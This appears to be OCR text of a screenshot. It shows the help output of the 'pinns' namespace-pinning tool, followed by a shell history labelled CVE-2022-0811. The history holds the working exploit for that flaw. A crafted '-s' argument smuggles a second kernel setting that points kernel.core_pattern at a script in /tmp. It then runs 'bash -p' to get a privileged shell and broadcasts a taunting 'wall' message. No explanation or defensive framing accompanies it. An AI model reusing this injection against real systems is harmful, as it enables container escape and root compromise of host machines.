 
https://github.com/saschagrunert/pinns.rs

#####################
#####################

pinns v0.1.0-9-g0fccc8b
A simple utility to pin Linux namespaces

USAGE:
    pinns [FLAGS] [OPTIONS]

FLAGS:
    -c, --cgroup     Pin the cgroup namespace
    -h, --help       Prints help information
    -i, --ipc        Pin the IPC namespace
    -n, --net        Pin the network namespace
    -p, --pid        Pin the PID namespace
    -u, --uts        Pin the UTS namespace
    -V, --version    Prints version information

OPTIONS:
    -d, --dir <DIRECTORY>      The directory for the pinned namespaces
                               [default: /tmp]
    -l, --log-level <LEVEL>    The logging level of the application [default: info]
                               [possible values: trace, debug, info, warn, error,
                               off]

More info at: https://github.com/saschagrunert/pinns.rs

#####################
#####################

    4  pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/THING/YOYO.sh #' --ipc --net --uts --cgroup
    5  man pinns ;; wall lolololol
    6  cd /usr/bin
    7  ls -la 
    8  ls -la | grep bash
    9  bash -p
   10  history
   11  ls
   12  cd /tmp/THING/
   
   
############ cve-2022-0811 ############
